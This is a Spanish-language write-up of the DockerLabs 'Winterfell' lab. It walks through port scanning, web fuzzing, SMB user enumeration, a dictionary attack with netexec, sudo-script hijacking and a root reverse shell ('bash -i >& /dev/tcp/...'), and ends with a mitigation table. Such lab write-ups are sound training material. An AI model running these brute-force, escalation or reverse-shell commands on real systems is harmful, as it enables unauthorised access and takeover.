

# Winterfell — DockerLabs Writeup

**Platform:** DockerLabs | **Difficulty:** Easy | **Target IP:** 172.17.0.2 | 

## Descripcion 

Laboratorio para practicar enumeración web y SMB, con escalada de privilegios mediante movimiento entre usuarios.

## Attack chain

**Nmap → Web Enumeration → Gobuster → Port Knocking → SSH Discovery → SSH Brute Force (Hydra) → SSH Access (toctoc) → Sudo Misconfiguration → Root**

## 1. Analisis y escaneo del objetivo.

```text
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/winterfell]
└─$ nmap -sV -sC -p- 172.17.0.2
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-14 18:38 -0300
Nmap scan report for 172.17.0.2
Host is up (0.0000070s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 39:f8:44:51:19:1a:a9:78:c2:21:e6:19:d3:1e:41:96 (ECDSA)
|_  256 43:9b:ac:9c:d3:0c:ad:95:44:3a:c3:fb:9e:df:3e:a2 (ED25519)
80/tcp  open  http        Apache httpd 2.4.61 ((Debian))
|_http-title: Juego de Tronos
|_http-server-header: Apache/2.4.61 (Debian)
139/tcp open  netbios-ssn Samba smbd 4
445/tcp open  netbios-ssn Samba smbd 4
MAC Address: 02:72:74:E4:94:68 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2026-10-14T21:39:08
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required

```
El escaneo revela tres superficies de ataque: un servicio web (Apache), SSH, y Samba (SMB) — consistente con lo que indica la descripción del lab (enumeración web y SMB).

Ingresamos para visualizar el servidor apache y tenemos lo siguiente, se realizo curl de la misma para visualizar codigo de la pagina pero no hay informacion relevante 



Continuamos con la enumeracion web.

## 2. Fuzzing WEB 

Realizamos un fuzzing web para buscar directorios o archivos ocultos. 

```text
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/winterfell]
└─$ gobuster dir  -u http://172.17.0.2/  -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -x php,html,htm,txt,bak,old,zip,conf,config,log
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              html,txt,zip,conf,log,php,htm,bak,old,config
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
index.html           (Status: 200) [Size: 1729]
server-status        (Status: 403) [Size: 275]
dragon               (Status: 301) [Size: 309] [--> http://172.17.0.2/dragon/]
index.html           (Status: 200) [Size: 1729]
Progress: 685091 / 685091 (100.00%)
===============================================================
Finished
===============================================================
                                                                                                                                                                                    
```

Encontramos el directorio `http://172.17.0.2/dragon/` el cual contiene unicamente un archivo.


Vemos el archivo contiene la siguiente informacion 

```
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/winterfell]
└─$ curl http://172.17.0.2/dragon/EpisodiosT1
Estos son todos los Episodios de la primera  temporada de Juego de tronos.
Tengo la barra espaciadora estropeada por lo que dejare los nombres sin espacios, perdonad las molest

seacercaelinvierno
elcaminoreal
lordnieve
tullidosbastardosycosasrotas
elloboyelleon
unacoronadeoro
ganasomueres
porelladodelapunta
baelor
fuegoyhielo

```
El archivo lista los nombres de los episodios de la primera temporada de la serie, sin espacios — funcionando como una wordlist de contraseñas candidatas para usar más adelante.

## 3. Enumeración SMB

Probamos con el usuario `toctoc` el cual encontramos su contraseña y procederemos a realizar la conexion `SSH` y la escalada de privilegios.

```text
                                                                                                           
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/winterfell]
└─$ smbclient -L //172.17.0.2/ -N

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        shared          Disk      
        IPC$            IPC       IPC Service (Samba 4.17.12-Debian)
        nobody          Disk      Home Directories
Reconnecting with SMB1 for workgroup listing.
smbXcli_negprot_smb1_done: No compatible protocol selected by server.
Protocol negotiation to server 172.17.0.2 (for a protocol between LANMAN1 and NT1) failed: NT_STATUS_INVALID_NETWORK_RESPONSE
Unable to connect with SMB1 -- no workgroup available

```
Se identificaron los shares `shared` y `nobody`, pero el acceso anónimo (-N) estaba denegado para ambos (NT_STATUS_ACCESS_DENIED), por lo que era necesario obtener credenciales válidas.

El dato clave de la salida se obtuvo mediante RID cycling (técnica que consulta identificadores numéricos secuenciales — RIDs — para que el servidor revele qué nombre de usuario corresponde a cada uno, aunque no se tengan credenciales):

```
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/winterfell]
└─$ enum4linux -a 172.17.0.2

[+] Enumerating users using SID S-1-5-21-3690852336-3766040492-4130139485 and logon username '', password ''    
                                                                                                                
S-1-5-21-3690852336-3766040492-4130139485-501 73F51CF1D69B\nobody (Local User)                                  
S-1-5-21-3690852336-3766040492-4130139485-513 73F51CF1D69B\None (Domain Group)
S-1-5-21-3690852336-3766040492-4130139485-1000 73F51CF1D69B\jon (Local User)

[+] Enumerating users using SID S-1-22-1 and logon username '', password ''                                     
                                                                                                                
S-1-22-1-1000 Unix User\jon (Local User)                                                                        
S-1-22-1-1001 Unix User\aria (Local User)
S-1-22-1-1002 Unix User\daenerys (Local User)

[+] Enumerating users using SID S-1-5-32 and logon username '', password ''                                     
                                                                                                                
S-1-5-32-544 BUILTIN\Administrators (Local Group)                                                               
S-1-5-32-545 BUILTIN\Users (Local Group)
S-1-5-32-546 BUILTIN\Guests (Local Group)
S-1-5-32-547 BUILTIN\Power Users (Local Group)
S-1-5-32-548 BUILTIN\Account Operators (Local Group)
S-1-5-32-549 BUILTIN\Server Operators (Local Group)
S-1-5-32-550 BUILTIN\Print Operators (Local Group)

```
Se obtuvieron tres usuarios válidos del sistema los cuales son `jon`, `aria`, `daenerys`. Además, la política de contraseñas reportó longitud mínima de 5 caracteres y complejidad deshabilitada, lo cual facilita un ataque de fuerza bruta.


## 4. Fuerza bruta (netexec)

Antes de poder correr el ataque, fue necesario instalar netexec (ya estaba presente en el sistema Kali utilizado):

```                                                                                                                        
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/winterfell]
└─$ sudo apt install netexec                  
[sudo] password for mariano: 
netexec is already the newest version (1.5.1-0kali2).
netexec set to manually installed.
Summary:                    
  Upgrading: 0, Installing: 0, Removing: 0, Not Upgrading: 0

```
Y armar los dos archivos de entrada con los datos obtenidos en los pasos anteriores:

```
# Usuarios obtenidos por RID cycling (enum4linux)

cat > users.txt << 'EOF'
jon
aria
daenerys
EOF

# Contraseñas candidatas obtenidas de /dragon/EpisodiosT1

cat > passwords.txt << 'EOF'
seacercaelinvierno
elcaminoreal
lordnieve
tullidosbastardosycosasrotas
elloboyelleon
unacoronadeoro
ganasomueres
porelladodelapunta
baelor
fuegoyhielo
EOF

```
Con ambos archivos listos, se ejecutó el ataque de diccionario cruzando usuarios contra contraseñas:

```
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/winterfell]
└─$ netexec smb 172.17.0.2 -u users.txt -u users.txt -p passwords.txt 

[*] Copying default configuration file
SMB         172.17.0.2      445    73F51CF1D69B     [*] Unix - Samba (name:73F51CF1D69B) (domain:73F51CF1D69B) (signing:False) (SMBv1:None) (Null Auth:True)                                                                    
SMB         172.17.0.2      445    73F51CF1D69B     [+] 73F51CF1D69B\jon:seacercaelinvierno 

```

Credencial válida obtenida: `jon`: `seacercaelinvierno.`

### 5. Acceso inicial y pivote dentro de SMB.

 Con la credencial de `jon`, se accedió al share `shared`, dentro se encontró el archivo `proteccion_del_reino`, el cual descargamos

```
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/winterfell]
└─$ smbclient //172.17.0.2/shared -U jon
Password for [WORKGROUP\jon]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Jul 16 17:26:00 2024
  ..                                  D        0  Tue Jul 16 17:25:59 2024
  proteccion_del_reino                N      313  Tue Jul 16 17:26:00 2024

                62266108 blocks of size 1024. 33224072 blocks available
smb: \> get proteccion_del_reino 
getting file \proteccion_del_reino of size 313 as proteccion_del_reino (152.8 KiloBytes/sec) (average 152.8 KiloBytes/sec)
smb: \> exit

```
Leemos el archivo que descargamos y obtenemos la clave en base64, decodificamos 

```
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/winterfell]
└─$ cat proteccion_del_reino            
Aria de ti depende que los caminantes blancos no consigan pasar el muro. 
Tienes que llevar a la reina Daenerys el mensaje, solo ella sabra interpretarlo. Se encuentra cifrado en un lenguaje antiguo y dificil de entender. 
Esta es mi contraseña, se encuentra cifrada en ese lenguaje y es -> aGlqb2RlbGFuaXN0ZXI=
                                                                                                                
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/winterfell]
└─$ echo "aGlqb2RlbGFuaXN0ZXI=" | base64 -d
hijodelanister                               

```
Esta credencial resultó ser una contraseña alternativa de jon (no de aria, pese a que la nota sugería lo contrario), confirmada al usarla para autenticar por SSH.

### 6. SSH y escalada de privilegios. 

Ingresamos con el usuario `Jon`, verificamos permisos para escalar privilegios y dentro encontramos el archivo `.mensaje.py`

```
jon@45670a36358c:~$ sudo -l
Matching Defaults entries for jon on 45670a36358c:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User jon may run the following commands on 45670a36358c:
    (aria) NOPASSWD: /usr/bin/python3 /home/jon/.mensaje.py
jon@45670a36358c:~$ ls -la
total 36
drwxr-xr-x 1 jon  jon  4096 Jul 17  2024 .
drwxr-xr-x 1 root root 4096 Jul 16  2024 ..
-rw------- 1 jon  jon   128 Jul 17  2024 .bash_history
-rw-r--r-- 1 jon  jon   220 Mar 29  2024 .bash_logout
-rw-r--r-- 1 jon  jon  3526 Mar 29  2024 .bashrc
drwxr-xr-x 3 jon  jon  4096 Jul 17  2024 .local
-rwxrwxr-x 1 aria aria  608 Jul 17  2024 .mensaje.py
-rw-r--r-- 1 jon  jon   807 Mar 29  2024 .profile
-rw-r--r-- 1 root root  103 Jul 16  2024 paraJon
jon@45670a36358c:~$ cat .mensaje.py
import hashlib
import getpass

def encriptar_mensaje():
    mensaje = input('Ingrese el mensaje que desea encriptar: ')

    mensaje_bytes = mensaje.encode('utf-8')

    hash_obj = hashlib.sha256()

    hash_obj.update(mensaje_bytes)

    hash_resultado = hash_obj.hexdigest()

    print(f'Mensaje Original: {mensaje}')
    print(f'Hash SHA-256: {hash_resultado}')

if __name__ == '__main__':
    usuario_actual = getpass.getuser()
    
    if usuario_actual == 'jon' or usuario_actual == 'aria':
        encriptar_mensaje()
    else:
        print('Lo siento, no tienes permiso para ejecutar este script.')


```

El usuario`jon` podía ejecutar un script Python como `aria`, sin contraseña. El archivo `.mensaje.py` pertenecía a `aria` (no a `jon`), pero al estar ubicado dentro del directorio home de `jon` (`/home/jon`, con permisos de escritura para su dueño), fue posible eliminarlo y reemplazarlo por un script propio:

```
jon@45670a36358c:~$ rm /home/jon/.mensaje.py
rm: remove write-protected regular file '/home/jon/.mensaje.py'? yes
jon@45670a36358c:~$ ls -la
total 36
drwxr-xr-x 1 jon  jon  4096 Oct 17 20:41 .
drwxr-xr-x 1 root root 4096 Jul 16  2024 ..
-rw------- 1 jon  jon   128 Jul 17  2024 .bash_history
-rw-r--r-- 1 jon  jon   220 Mar 29  2024 .bash_logout
-rw-r--r-- 1 jon  jon  3526 Mar 29  2024 .bashrc
drwxr-xr-x 3 jon  jon  4096 Jul 17  2024 .local
-rw-r--r-- 1 jon  jon   807 Mar 29  2024 .profile
-rw-r--r-- 1 root root  103 Jul 16  2024 paraJon
jon@45670a36358c:~$ cat > /home/jon/.mensaje.py << 'EOF'
> import os
> os.system('/bin/bash')
> EOF
jon@45670a36358c:~$ cat .mensaje.py
import os
os.system('/bin/bash')
on@45670a36358c:~$ sudo -u aria /usr/bin/python3 /home/jon/.mensaje.py
aria@45670a36358c:/home/jon$ 

```
Esto fue posible porque el permiso de sudo apunta a una ruta de archivo, no verifica el contenido ni la integridad del script. Y para borrar un archivo en Linux, el permiso que importa es el de escritura sobre el directorio contenedor, no el dueño del archivo individual — como jon era dueño de /home/jon, pudo borrar un archivo ajeno dentro de esa carpeta.

El script `import os; os.system('/bin/bash')` invoca una shell interactiva de bash desde Python. Como el script se ejecuta mediante `sudo -u aria`, el proceso que corre el código — y por lo tanto la bash que abre — hereda los privilegios del usuario aria. Es decir, no es que “heredamos el usuario”, sino que el proceso bash nace ya corriendo como `aria`, porque sudo cambió el contexto de ejecución antes de que Python empezara a correr.

Continuamos con la escalada de privilegios 

```
aria@45670a36358c:/home/jon$ sudo -l
Matching Defaults entries for aria on 45670a36358c:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User aria may run the following commands on 45670a36358c:
    (daenerys) NOPASSWD: /usr/bin/cat, /usr/bin/ls

```
A diferencia del paso anterior, acá el permiso apuntaba a binarios del sistema inmodificables (`cat, ls`), por lo que no era posible inyectar código — pero sí leer cualquier archivo accesible para `daenerys`, incluyendo el contenido de su directorio home (normalmente bloqueado, `drwx------`):

Al tener los permisos que nombramos, listados la carpeta home de `daenerys` y leemos el archivo `mensajeParaJon`

```
aria@45670a36358c:/home/jon$ sudo -l
Matching Defaults entries for aria on 45670a36358c:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User aria may run the following commands on 45670a36358c:
    (daenerys) NOPASSWD: /usr/bin/cat, /usr/bin/ls
aria@45670a36358c:/home/jon$ sudo -u daenerys /usr/bin/ls -la /home/daenerys/
total 32
drwx------ 1 daenerys daenerys 4096 Jul 16  2024 .
drwxr-xr-x 1 root     root     4096 Jul 16  2024 ..
-rw-r--r-- 1 daenerys daenerys  220 Mar 29  2024 .bash_logout
-rw-r--r-- 1 daenerys daenerys 3526 Mar 29  2024 .bashrc
-rw-r--r-- 1 daenerys daenerys  807 Mar 29  2024 .profile
drwxr-xr-x 1 root     root     4096 Jul 16  2024 .secret
-rw-rw-r-- 1 daenerys daenerys  277 Jul 16  2024 mensajeParaJon
aria@45670a36358c:/home/jon$ sudo -u daenerys /usr/bin/cat /home/daenerys/mensajeParaJon
Aria estare encantada de ayudar a Jon con la guerra en el norte, siempre y cuando despues Jon cumpla y me ayude a  recuperar el trono de hierro. 
Te dejo en este mensaje la contraseña de mi usuario por si necesitas llamar a uno de mis dragones desde tu ordenador.

!drakaris!

```
Logramos obtener la clave de `daenerys`, cambiamos a dicho usuario y intentamos escalar privilegios nuevmanete, leemos el archivo por el cual nos permitiria escalar privilegios hacia `root`, dicho archivo contiene una `reverse shell`


```
daenerys@45670a36358c:/home/jon$ sudo -l
Matching Defaults entries for daenerys on 45670a36358c:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User daenerys may run the following commands on 45670a36358c:
    (ALL) NOPASSWD: /usr/bin/bash /home/daenerys/.secret/.shell.sh

daenerys@45670a36358c:/home/jon$ cat /home/daenerys/.secret/.shell.sh
#!/bin/bash

bash -i >& /dev/tcp/192.168.234.42/443 0>&1

```

Editamos dicho archivo con el fin de que la `reverse shell` apunte hacia nuestra ip y antes de ejecutar dicho archivo nos ponemos en esucha por el puerto 443 el cual no hemos modificado.

```
daenerys@45670a36358c:/home/jon$ cat /home/daenerys/.secret/.shell.sh
#!/bin/bash

bash -i >& /dev/tcp/192.168.234.42/443 0>&1
daenerys@45670a36358c:/home/jon$ nano /home/daenerys/.secret/.shell.sh
daenerys@45670a36358c:/home/jon$ sudo /usr/bin/bash /home/daenerys/.secret/.shell.sh

```
sesion con root 

```
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/winterfell]
└─$ nc -lvnp 443                                                     
listening on [any] 443 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 54560
root@45670a36358c:/home/jon# whoami
whoami
root
root@45670a36358c:/home/jon# id
id
uid=0(root) gid=0(root) groups=0(root)
root@45670a36358c:/home/jon# 

```

# Conclusión

A partir del escaneo inicial con **Nmap**, se identificaron los servicios SSH, Apache y SMB. Mediante **Gobuster**, se descubrió el directorio `dragon`, que contenía una lista de episodios de *Juego de Tronos* utilizada como diccionario de posibles contraseñas.

Posteriormente, con **enum4linux**, se identificaron los usuarios `jon`, `aria` y `daenerys`. Utilizando **NetExec**, se encontraron credenciales válidas para acceder al recurso compartido SMB. Allí se descubrió un archivo con una contraseña codificada en **Base64**, que permitió obtener acceso por SSH como `jon`.

La escalada de privilegios se realizó progresivamente. Primero, se aprovechó una configuración insegura de `sudo` que permitía ejecutar un script Python modificable como `aria`. Luego, mediante permisos sobre `cat` y `ls`, se accedió a información privada de `daenerys` y se obtuvo su contraseña. Finalmente, se aprovechó un script de reverse shell ejecutable como `root` para conseguir acceso privilegiado.

En conclusión, **Winterfell** demuestra la importancia de combinar la enumeración web y SMB, analizar los archivos encontrados y comprender cómo los permisos excesivos pueden permitir el movimiento entre usuarios hasta comprometer completamente un sistema.

| Vulnerabilidad / Técnica | Impacto | Mitigación |
|---|---|---|
| **Credenciales débiles** | Facilitan los ataques de diccionario contra SMB. | Utilizar contraseñas robustas y políticas de autenticación seguras. |
| **Información sensible en recursos SMB** | Permite obtener contraseñas y avanzar hacia otros usuarios. | Restringir el acceso a los recursos compartidos y revisar los archivos publicados. |
| **Script Python modificable ejecutado con `sudo`** | Permite ejecutar comandos con los privilegios de otro usuario. | Proteger los scripts y evitar ejecutar archivos modificables con privilegios elevados. |
| **Permisos excesivos de `sudo` sobre `cat` y `ls`** | Permiten acceder a información que debería estar restringida. | Limitar los comandos autorizados y aplicar el principio de mínimo privilegio. |
| **Script de reverse shell ejecutable como `root`** | Permite obtener una shell con privilegios máximos. | Evitar ejecutar scripts modificables como `root` y restringir los permisos de `sudo`. |

## Recomendaciones generales

- Utilizar contraseñas robustas y evitar reutilizarlas entre usuarios.
- Restringir el acceso anónimo y los permisos de los recursos SMB.
- Revisar los permisos de `sudo` y proteger los scripts ejecutados con privilegios elevados.
- Aplicar el principio de mínimo privilegio para evitar movimientos entre usuarios.
- Auditar los archivos y directorios que puedan modificarse antes de ser ejecutados por otros usuarios.
